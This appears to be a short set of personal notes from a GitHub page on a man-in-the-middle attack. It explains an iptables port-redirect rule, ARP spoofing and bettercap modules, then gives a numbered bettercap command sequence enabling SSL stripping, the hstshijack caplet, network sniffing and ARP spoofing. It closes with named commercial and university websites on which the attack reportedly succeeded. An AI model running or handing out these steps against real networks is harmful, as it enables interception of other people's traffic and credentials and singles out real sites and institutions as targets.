 iptables affects the host where the command is executed. It modifies how that machine handles incoming and outgoing packets.

iptables -t nat -A PREROUTING -p tcp --destination-port n - j REDIRECT --to-port N

iptables — modifies the NAT (Network Address Translation) table to redirect incoming TCP traffic on port port  n (in our case 80) over to to port N. 

—

-A PREROUTING — appends a rule to the prerouting chain, which processes packets before they are routed

-p tcp — specifies that the rule applies to tcp packets

-j redirect — specifies that packets should be redirected

arpspoof works at a low level, manipulating the ARP table entries of devices on the local network to redirect traffic without altering firewall rules or packet processing at higher layers.

manipulates the ARP tables of devices on the local network to make them believe that your machine's MAC address corresponds to another device's IP address (like the router or another host)

net.probe enables network probing within bettercap, allowing the tool to discover devices on the network by sending arp requests and listening for responses

net.sniff activates packet sniffing, so bettercap will start capturing and analyzing the traffic flowing through the network

#### Bettercap Steps:
0. sudo bettercap -iface eth0
1. help
2. caplets.show
3. set http.proxy.sslstrip true
4. hstshijack/hstshijack
5. help
6. net.probe on
7. net.sniff on
8. arp.spoof on


#### Working Sites
Sites that worked:
alibaba
foxnews
ign.com
speedtest.com

Institutional Sites:
carleton.edu
mit.edu
washington.edu
and most likely more…
